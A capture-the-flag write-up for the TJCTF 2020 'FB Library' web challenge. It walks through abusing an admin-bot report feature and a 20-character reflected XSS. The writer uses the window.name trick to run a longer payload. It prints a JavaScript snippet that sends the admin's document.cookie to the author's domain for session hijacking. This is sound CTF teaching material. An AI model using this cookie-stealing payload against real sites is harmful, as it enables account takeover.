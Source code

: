 ```yaml
---
title: TJCTF 2020 FB Library Writeup
category: cyber-security
---
```


I want to make a writeup for this one because it was one of my favourites and I can't find a writeup for it yet on [CTFTime](https://ctftime.org/event/928/tasks/).

Here was the description:

![problem description](/assets/images/fb_library.png)

The [linked website](https://fb_library.tjctf.org/) had a login and registration system that then allowed you to view a catalog of books and then report them to the admin. When you reported, you would go to `/report?url=<book url>` with a success message. We realized we could make it `report` any valid url and it would then open a get request to that url

So for example, when I reported my website [http://uzpg.me](http://uzpg.me), I noticed a new GET request with a User-Agent `Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/80.0.3987.0 Safari/537.36`. The most important part here is the **HeadlessChrome** part which is a [Headless Browser](https://en.wikipedia.org/wiki/Headless_browser). A headless browser is an automated way of using a browser without human action.

This meant that we could try and access the cookies and data of this headless browser instance to compromise the `fb_library`. Indeed, the login system we noticed above had a `session` cookie that would log you in. This meant that if we could steal the value of that cookie, we would have admin access.

At first, I tried to report a url that had a `script` that sent me its cookies. Unfortunately, they were empty, because of [Same-Origin Policy](https://en.wikipedia.org/wiki/Same-origin_policy) which prevents a malicious website of accessing cookies of another different domain like the `fb_library` one. 

This meant, the only way I could execute my cookie stealer would be by embedding the payload on the `fb_library` domain. This meant finding another XSS on the website itself. We noticed Reflected XSS in the search bar that allowed you to look for books. But the length of the field was struncated AFTER 20 characters!!! 

Building a cookie stealer in 20 characters would be impossible, so we had to find another way. Some [funny posts](https://jlajara.gitlab.io/posts/2019/11/30/XSS_20_characters.html) had the idea of buying a short domain, but the admins told us no purchase was required. 

My teammate [Techno-Disaster](http://technodisaster.me) scoured the web and found the very interesting `window.name` [property](https://developer.mozilla.org/en-US/docs/Web/API/Window/name). This allows you to store a string across different websites. So for example, I can set its value on my own, and then if I redirect to their website, its value will stay the same. Do you see where I am going? :)

So our trick was to make it go to our website and then have a script that would change the `window.name` property to our payload, and then redirect it to the vulnerable search page by setting the query parameter to `<script>eval(name)`. This evaluates our payload stored in the `window.name` property and executes our cookie stealing payload.

```js
window.name = "window.location = 'http://uzpg.me/' + document.cookie;";
location = "https://fb_library.tjctf.org/search?q=<script>eval(name)/*"";
```

When executed, this `window.name` payload executed on the `fb_library` domain would redirect to my website + the cookie.

At that point, all I had to do was look at the cookie and then change my `session` cookie to log in as admin, and then I had the flag:

![flag](/assets/images/flag_lib.png)